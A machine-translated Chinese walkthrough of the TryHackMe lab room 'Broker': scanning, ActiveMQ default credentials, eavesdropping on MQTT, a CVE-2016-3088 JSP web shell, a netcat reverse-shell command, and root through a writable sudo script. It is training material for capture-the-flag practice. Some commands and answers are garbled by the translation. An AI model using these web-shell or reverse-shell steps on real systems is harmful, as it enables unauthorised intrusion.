# 经纪人 Tryhackme 报道

> 原文：<https://infosecwriteups.com/broker-tryhackme-writeup-f9cf3971e4da?source=collection_archive---------8----------------------->

**作者 Shamsher khan 这是一篇关于 Tryhackme room“Broker”**的文章


[https://www.tryhackme.com/room/broker](https://www.tryhackme.com/room/broker)

**房间链接:**[https://www.tryhackme.com/room/broker](https://www.tryhackme.com/room/broker)
**注:此房免费**

保罗和马克斯通过使用某种软件找到了一种在工作时聊天的方法。他们认为他们比老板聪明，但似乎不知道窃听是很可能的…他们最好小心..

**问题 1:** 对端口号大于 1000 小于 10000 的所有端口进行 TCP 端口扫描！您发现哪些 TCP 端口是开放的？(向上计数)



> ***答案:18838161***

问题 2: 他们使用的软件叫什么名字？



> ***答案:ActiveMQ***



我尝试了默认凭证，admin:admin 为我们工作



注意到一个版本号，即 **5.9.0**

问题 3: 保罗和马克斯在谈论哪个电子游戏？

查看上面的结果，一个端口作为 MQTT 服务器返回，另一个作为 Jetty 返回。MQTT 协议提供了发布和订阅模型的轻量级方法。基本上是作为一个轻量级的消息协议。在我们的例子中，它启用了空身份验证，这意味着我们可以订阅任何发布的消息，而无需任何有效的凭据。我决定在后台订阅任何已发布的模型。

此时，很明显我们需要与运行在端口 1883 上的守护进程`mqtt`对话(检查 nmap 扫描)。所以搜索一个`mqtt`客户端找到了这个:

> [*https://github.com/eclipse/paho.mqtt.python#getting-started*](https://github.com/eclipse/paho.mqtt.python#getting-started)

也发现这个链接非常有用:

> [*http://www . steves-internet-guide . com/into-mqtt-python-client/*](http://www.steves-internet-guide.com/into-mqtt-python-client/)

但是我们仍然需要一个“主题”让`subscribe()`订阅主题和接收消息。这是在这里发现的:

> [*http://10 . 10 . 120 . 228:8161/admin/XML/topics . JSP*](http://10.10.120.228:8161/admin/xml/topics.jsp)



所以编辑了来自 GitHub 链接的代码，并添加了主题、目标的 IP 地址和 MQTT 版本，它需要是 3.1:

```
pip install paho-mqtt
```



> **答案:黑客网**

现在我们需要利用这个版本的 ActiveMQ 中的一些漏洞来继续前进。Searchsploit 发现了一个同样适用于 5.9.0 的漏洞。



出于某种原因，用于探索的 Metasploit 模块不工作，所以搜索任何可用的漏洞，并在 GitHub 上找到了这个:

> 【https://github.com/gsheller/ActiveMQ_putshell-CVE-2016-3088 

运行起来非常简单:



而这个在放了一个 web shell，像[http://](http://10.10.120.228:8161/admin/guo.jsp?pwd=gshell&shell=whoami)[broker . thm](http://10.10.120.228:8161/admin/guo.jsp)[:8161/admin/Guo . JSP 那样使用？pwd = g shell&shell =](http://10.10.120.228:8161/admin/guo.jsp?pwd=gshell&shell=whoami)uname-a 获取远程代码执行


# 反向外壳

现在，为了获得一个反向的外壳，尝试了一些有效载荷，这个成功了，给了我们一个反向。注意:在执行反向 shell 有效负载 URL 之前，在攻击机器上启动 netcat 监听器，并使用您自己的 IP 地址替换 IP 地址:

在 netcat 上启动监听器

```
nc -lvp 4444
```

> *NC 10 . 2 . 12 . 26 4444-e/bin/sh*



**升级并稳定 Shell** *在目标上运行以下命令升级当前 shell:*

> *script-QC/bin/bash/dev/null
> export TERM = xterm*

**flag.txt**



# 权限提升

运行`sudo -l`表示我们可以运行`/opt/apache-activemq-5.9.0`目录中的`subcribe.py`。当前用户 activemq 对该文件也有写权限



因此，我们可以通过使用 nano 在`subcribe.py`中添加以下代码来轻松获得 root，因为 vi 在目标上不可用:



我们得到了 **Root.txt**

你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)


更多演练请继续关注…
在您离开之前…

[](https://t.me/tryhackme_writeups)

[**点击此处加入电报**](https://t.me/tryhackme_writeups)

访问我的其他演练:-

感谢您花时间阅读我的演练。
如果你觉得有用，请点击👏按钮👏(高达 40 倍)并分享
它来帮助其他有类似兴趣的人！+随时欢迎反馈！